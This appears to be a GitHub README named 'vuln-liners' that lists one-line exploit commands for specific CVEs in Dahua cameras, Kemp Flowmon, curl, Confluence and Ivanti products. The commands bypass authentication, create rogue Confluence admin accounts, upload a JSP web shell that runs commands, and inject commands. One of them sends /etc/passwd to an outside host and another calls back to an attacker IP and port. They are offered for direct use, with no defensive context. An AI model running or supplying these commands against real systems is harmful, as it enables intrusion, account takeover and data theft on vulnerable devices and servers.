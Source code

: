 # vuln-liners
One line vulnerabilities

## CVE-2021-33044, CVE-2021-33045 (Dahua IP Camera Authentication Bypass):
`curl -Liksv http://<IP>/RPC2_Login --header "Host: <IP>:<PORT>" --header "User-Agent: Mozilla/5.0 (SS; Linux x86_64; rv:125.0) Gecko/20100101 Firefox/125.0" --header "Accept: application/json, text/javascript, */*; q=0.01" --header "Content-Type: application/x-www-form-urlencoded; charset=UTF-8" --header "Origin: http://<IP>/" --header "Referer: http://<IP>/" --header "X-Requested-With: XMLHttpRequest" --header "Accept-Encoding: gzip" -d "{"id": 1, "method": "global.login", "params": {"authorityType": "Default", "clientType": "NetKeyboard", "loginType": "Direct", "password": "Not Used", "passwordType": "Default", "userName": "admin"}, "session": 0}"`

## CVE-2024-2389 (Progress Kemp Flowmon):
`curl -kv 'https://192.168.56.12/service.pdfs/confluence?lang=en&file=`curl+IP+PORT`'`

## CVE-2023-38545
`curl -vvv -x socks5h://localhost:9050 $(python3 -c "print(('A'*10000), end='')")`

## CVE-2023-22515 (Confluence Broken Access Control)
`curl -k -X POST -H "X-Atlassian-Token: no-check" --data-raw "username=adm1n&fullName=admin&email=admin@confluence&password=adm1n&confirm=adm1n&setup-next-button=Next" http://confluence/setup/setupadministrator.action`

## CVE-2023-32563 (Ivanti Avalanche Pre-auth)
`curl -v http://x.x.x.x:1900/Servlet/Skins -F guid=../../../Web/webapps/ROOT -F "file=@-;filename=x.jsp" <<<'<%Runtime.getRuntime().exec(request.getParameter("c"));%>' -: -k https://x.x.x.x:8443/x.jsp -d c=mspaint.exe`

## CVE-2023-38035 (Ivanti Sentry API Authentication Bypass)
`python3 -c "from pyhessian.client import HessianProxy as H; H('https://TARGET-DOMAIN:8443/mics/services/MICSLogService').uploadFileUsingFileInput({'command': 'curl -X POST -d @/etc/passwd https://x.x.x.x', 'isRoot': True}, None)"`

